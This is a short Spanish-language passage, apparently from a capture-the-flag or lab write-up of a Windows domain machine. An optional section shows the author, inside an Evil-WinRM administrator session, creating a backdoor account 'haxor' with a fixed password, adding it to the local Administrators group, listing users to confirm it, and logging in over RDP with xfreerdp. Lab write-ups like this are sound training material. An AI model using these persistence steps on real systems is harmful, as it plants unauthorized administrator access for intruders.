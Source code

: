 ----

### Opcional

## Acceso Remoto

Una forma de acceder a la máquina Windows de forma remota es creandonos un usuario con privilegios de administrador con los siguientes comandos.

```
net user haxor haxor123 /add
net localgroup "Administrators" haxor /add
```

Verificamos el usuario creado

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            a-spooks                 backup
breakerofthings          darkstar                 Guest
haxor                    horshark                 james
krbtgt                   Muirland                 optional
Ori                      paradox                  robin
sherlocksec              skidy                    svc-admin
```

Finalmente accedemos al sistema.

```
xfreerdp /u:haxor /p:haxor123 /v:10.10.104.53
```
